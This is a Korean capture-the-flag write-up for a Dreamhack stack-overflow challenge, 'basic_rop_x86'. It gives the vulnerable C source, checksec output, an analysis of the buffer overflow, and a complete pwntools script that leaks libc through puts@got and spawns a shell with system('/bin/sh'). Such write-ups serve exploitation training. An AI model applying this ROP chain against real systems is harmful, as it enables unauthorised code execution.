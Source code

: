 ```c
// Name: basic_rop_x86.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

```bash
$ checksec ./basic_rop_x86
[*] './basic_rop_x86'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# 분석

`basic_rop_x86.c` 코드와 `checksec ./basic_rop_x86`의 결과를 볼 때 stack canary를 적용하지 않았으며, NX를 우회해서 쉘을 탈취해야 함을 알 수 있다.

# 취약점

`buf` 배열의 크기는 `0x40`바이트 밖에 안 되는데, `read(0, buf, 0x400);`을 통해 `0x400`바이트의 데이터를 `stdin`을 통해 읽어들이므로 BOF 취약점이 있다.

# 공격

```bash
pwndbg> plt
Section .plt 0x80483e0-0x8048470:
0x80483f0: read@plt
0x8048400: signal@plt
0x8048410: alarm@plt
0x8048420: puts@plt
0x8048430: exit@plt
0x8048440: __libc_start_main@plt
0x8048450: write@plt
0x8048460: setvbuf@plt
```

gdb를 통해 바이너리의 PLT를 확인하면 `puts` 함수가 PLT에 있음을 확인할 수 있다.
`puts` 함수는 `write` 함수와 달리 인자가 하나 뿐이며, 문자열의 크기를 인자로 넘겨줄 필요가 없으므로 다루기가 상대적으로 간단하다.
따라서 `puts` 함수를 이용하여 공격할 방법을 고려해볼 수 있다.

먼저, ROP를 통해 `puts(puts@got);`를 호출하고, 이 함수의 return address를 `main`으로 덮어쓰는 방식으로 `puts@got`를 얻어내고 `main` 함수를 재호출하여 `puts@got`를 활용한 payload를 다시 전송할 수 있도록 한다.

그 후, 얻어낸 `puts@got`를 이용하여 `system("/bin/sh");`를 호출할 수 있는 payload를 구성하여 전송하면 쉘을 탈취할 수 있다.

이때, `checksec`을 통해 얻어낸 `basic_rop_x86`의 아키텍처가 `x86`이므로 함수의 인자는 모두 스택 영역에 위치한다.

```python
# Name: basic_rop_x86.py

from pwn import *

context.arch = 'i386'
context.os = 'linux'
# context.log_level = 'debug'

def slog(name, addr):
    success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 12198

# conn = process('./basic_rop_x86') # local
conn = remote(HOST, PORT)
e = ELF('./basic_rop_x86')
# libc = ELF('/lib/i386-linux-gnu/libc.so.6') # local
libc = ELF('./libc.so.6')

puts_plt = e.plt['puts']
puts_got = e.got['puts']

buf = b'A' * 0x40
padding = b'B' * 0x4
SFP = b'C' * 0x4

payload = buf + padding + SFP

# puts(puts@got)
payload += p32(puts_plt)
payload += p32(e.sym['main'])
payload += p32(puts_got)

conn.send(payload)

conn.recvuntil(buf)

puts = u32(conn.recvn(4))
lb = puts - libc.sym['puts']
system = lb + libc.sym['system']
sh = lb + list(libc.search(b'/bin/sh'))[0]

slog('libc_base', lb)
slog('puts', puts)
slog('system', system)
slog('/bin/sh', sh)

# system("/bin/sh")
payload = buf + padding + SFP
payload += p32(system)
payload += p32(1)
payload += p32(sh)

conn.send(payload)
conn.interactive()
```